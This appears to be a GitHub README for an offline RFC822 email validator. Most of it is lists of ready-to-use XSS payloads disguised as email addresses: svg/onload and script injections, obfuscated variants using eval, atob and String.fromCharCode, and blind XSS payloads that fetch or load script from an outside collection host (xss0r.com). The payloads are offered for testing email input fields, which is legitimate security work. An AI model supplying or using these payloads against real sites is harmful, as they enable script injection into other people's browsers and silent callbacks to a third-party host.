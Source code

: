 # RFC822 Email Validator
A sleek, offline, browser-based tool for validating email addresses against the RFC822 standard. Built with HTML, CSS, and JavaScript — perfect for quick manual checks, demos, or client-side validation testing.

# Security Testing
Use this tool to test how email input fields handle potentially dangerous strings. Example payloads:
```
"><svg/onload=confirm(1337)>"@x.y
"><svg/onload=alert`XSS!`>"@x.y
"><svg><script>alert(48)</script>"@x.y
"><svg><title>1</title><script>alert(47)</script>"@x.y
"><svg/onload=eval('confirm(37)')>"@x.y
"><svg/onload=confirm?.(33)>"@x.y
"><math><mtext></title><script>confirm(31)</script>"@x.y
"><svg/onload=(confirm)(29)>"@x.y
"><script>setTimeout(()=>confirm(22))</script>"@x.y
"><svg/onload=Function('confirm(20)')()>"@x.y
"><svg/onload=eval(atob('Y29uZmlybSgxOSk='))>"@x.y
"><svg/onload=confirm(String.fromCharCode(49,56))>"@x.y
"><svg><foreignObject><script>confirm(15)</script></foreignObject></svg>"@x.y
"><svg/onload=alert(8)>"@x.y
"><math><mtext></title><script>confirm(6)</script>"@x.y
"><svg><script>confirm(4)</script>"@x.y
"><script>alert(3)</script>"@x.y
"><svg/onload=confirm(1)>"@x.y
```
Test Blind XSS payloads with RFC822 Email Validator for secure input validation. Example payloads:
```
%22%27%3E%3Cscript%3Ealert%281234567%29%3C%2Fscript%3E@x.y
ibro%27%22%3E%3Cscript%20src%3Dhttps%3A%2F%2Fxss0r.com%2Fc%2Fbrocode%3E%3C%2Fscript%3E@xss0r.com
"'><svg/onload=fetch('https://xss0r.com/c/brocode')>"@x.y
"'><svg><script>fetch('https://xss0r.com/c/brocode')</script></svg>"@x.y
"'><script>fetch('https://xss0r.com/c/brocode')</script>"@x.y
```

Great for detecting weaknesses in forms, input sanitization, or frontend validation logic.

# Inspired By
Inspired by @coffinxp/RFC822-Email-Validator — now redefined for the web.

